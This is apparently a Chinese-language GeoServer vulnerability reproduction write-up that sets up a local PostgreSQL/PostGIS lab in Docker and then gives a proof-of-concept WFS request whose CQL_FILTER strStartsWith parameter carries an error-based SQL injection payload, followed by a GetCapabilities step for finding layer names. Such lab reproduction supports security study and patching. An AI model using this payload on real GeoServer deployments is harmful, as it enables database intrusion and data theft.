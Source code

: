`docker run -e POSTGRES_PASSWORD=password -d -p 5433:5432  postgres:latest`

![](https://shs3.b.qianxin.com/butian_public/f6437454fbb2e3cda09b34f1d7848d8d1fc74d103444b.jpg)

下面进入启动的容器并安装postgis拓展（这里安装的时候会提醒网络连接失败，可以先更新apt后再尝试）：

`docker exec -it 8f16 bash

apt search postgis

apt install postgis  
postgresql-14-postgis-3-scripts`

![](https://shs3.b.qianxin.com/butian_public/f433174759d4616c47f580e74cdb9df95091278057919.jpg)

![](https://shs3.b.qianxin.com/butian_public/f18730247fc0a11f4a631c7b1b320a3d1a77fc0fd2f80.jpg)

安装完拓展后需要配置数据源。详情请参考

<https://docs.geoserver.org/latest/en/user/gettingstarted/postgis-quickstart/index.html>

![](https://shs3.b.qianxin.com/butian_public/f2793003565bcd0d4202a37f6af1504d036ec72456307.jpg)、

创建好nyc数据库后进入：

`psql -U postgres -h localhost -p 5433 -d nyc`

![](https://shs3.b.qianxin.com/butian_public/f4283793059988d19498466312f01702982afc8eb5e68.jpg)

`\i /your-path/nyc_buildings.sql`

![](https://shs3.b.qianxin.com/butian_public/f470125e1aaa8e77d8c4ca3f134b8869ec7dbee4e6bfb.jpg)

配置好后本地环境搭建完成。

![](https://shs3.b.qianxin.com/butian_public/f965240ad75eaad34abfa2e0abbb82d20c896a1703b62.jpg)

0X03漏洞复现
--------

测试poc如下：

```php
/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=查询到的图层名称&CQL_FILTER=strStartsWith(该图层中的属性名称,'x'')+%3d+true+and+1%3d(SELECT+CAST+((SELECT+version())+AS+INTEGER))+--+')+%3d+true
```

第一步：获取图层名称

```php
[/geoserver/ows?service=WFS&amp;version=1.0.0&amp;request=GetCapabilities]
```

([http://192.168.145.130:8080/geoserver/ows?service=WFS&amp;version=1.0.0&amp;request=GetCapabilities](http://192.168.145.130:8080/geoserver/ows?service=WFS&version=1.0.0&request=GetCapabilities))

![](https://shs3.b.qianxin.com/butian_public/f5042007711c2c041b43da2b4616e200b2663dab82c16.jpg)
